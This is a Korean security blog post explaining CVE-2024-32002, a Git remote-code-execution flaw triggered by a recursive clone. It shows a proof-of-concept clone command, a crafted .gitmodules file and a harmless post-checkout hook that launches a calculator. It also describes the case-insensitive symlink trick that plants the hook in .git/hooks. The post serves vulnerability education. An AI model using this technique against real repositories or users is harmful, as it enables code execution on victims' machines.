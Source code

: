 ```yaml
---
title: "CVE-2024-32002 Exploiting Git RCE via git clone"
description: "git clone 명령만으로 RCE 취약점이 발생한다..?"
author: bde574786
date: 2024-10-27 21:55:00 +0900
categories: [최근 보안 이슈]
tags: [빡공팟, 콘테스트 네뷸라, 최근 보안 이슈, CVE, Git]
image: 
---
```


## **Details**
Git의 git clone 기능에는 저장소의 **하위 모듈(submodule)**을 재귀적으로 함께 클론하는 `--recursive`  옵션이 포함되어 있다. 또한, Git은 **심볼릭 링크(Symbolic Link)**를 지원하여, 이를 통해 저장소의 다른 부분을 참조할 수 있다.
이 취약점은 대소문자를 구분하지 않는 파일 시스템 (Windows, MacOS)에서 발생한다.


## **Affected Versions**
- v2.45.0
- v2.44.0
- <= v2.43.3
- <= v2.42.1
- v2.41.0
- <= v2.40.1
- <= v2.39.3

## **PoC**
⚠️ Warning: 해당 PoC 실행 시 반드시 허가받은 시스템에서만 수행해야 한다.

환경 구축의 제한사항과 편의를 고려하여 이미 만들어진 PoC를 테스트하였다.

> [https://github.com/amalmurali47/git_rce?tab=readme-ov-file](https://github.com/amalmurali47/git_rce?tab=readme-ov-file)

<br>
- Git을 사용해 git_rce라는 이름의 원격 Repository를 클론하는 동시에, 서브모듈을 함께 클론한다.
```bash
git clone --recursive git@github.com:amalmurali47/git_rce.git
```

<br>
- 아래 파일은 Git Repository에서 서브모듈을 추가할 때 사용되는 .gitmodules 구성 파일이다.
- Git이 서브모듈을 클론할 때, 현재 로컬 Repository 루트 경로에 A/modules/x 폴더가 생성되며 url에 지정된 원격 Repository의 악성 후크 파일이 A/modules/x에 클론될 것이다.
```bash
[submodule "x/y"]
	path = A/modules/x  # Local path for the submodule
	url = git@github.com:amalmurali47/hook.git  # Remote repository URL
```

<br>
- 위 서브모듈 url은 [https://github.com/amalmurali47/hook](https://github.com/amalmurali47/hook) 저장소를 가리키고 있으며 해당 저장소에는 hook/post-checkout 경로에는 공격자가 의도한 악성 스크립트가 작성되어 있다.
```bash
#!/bin/bash
echo "amal_was_here" > /tmp/pwnd
calc.exe
open -a Calculator.app
```

<br>
Boom..!!<br>
![image.png](assets/posts/security-issue/2024-10-27/img-001.png)

<br>
## **How It Works**
- **특수 경로의 심볼릭 링크 설정**
    - 공격자는 .git을 가리키는 심볼릭 링크를 저장소 안에 생성하고, 이 링크의 이름을 a로 설정한다.
    - 서브모듈의 경로는 대소문자를 변형하여 설정되며, 이는 대소문자 구분을 하지 않는 파일 시스템(Windows, Mac)의 취약점을 겨냥한다.
- **서브모듈 경로 충돌 유도**
    - Git은 서브모듈을 A/modules/x 경로에 클론하려고 시도하지만, 대소문자 구분이 없는 파일 시스템에서 A와 a가 동일하게 인식된다.
- **경로 우회로 악성 후크 위치 설정**
    - 결과적으로 Git은 서브모듈의 후크 스크립트를 .git/hooks 아래에 배치하게 된다.
    - 이 후크는 공격자의 명령이 포함되어 사용자의 시스템에서 RCE가 발생하게 된다.
<br>
따라서, 사용자가 단순히 해당 Repository를 클론하기만 해도 공격자가 의도한 악성 코드가 실행될 수 있다.
해당 취약점은 Git의 core.sysmlinks 기능이 활성화된 Windows와 MacOS에 취약하다.

<br>
## **Reference**
[https://github.com/amalmurali47/git_rce](https://github.com/amalmurali47/git_rce)<br>
[https://github.com/git/git/security/advisories/GHSA-8h77-4q3w-gfgv](https://github.com/git/git/security/advisories/GHSA-8h77-4q3w-gfgv)<br>
[https://amalmurali.me/posts/git-rce/](https://amalmurali.me/posts/git-rce/)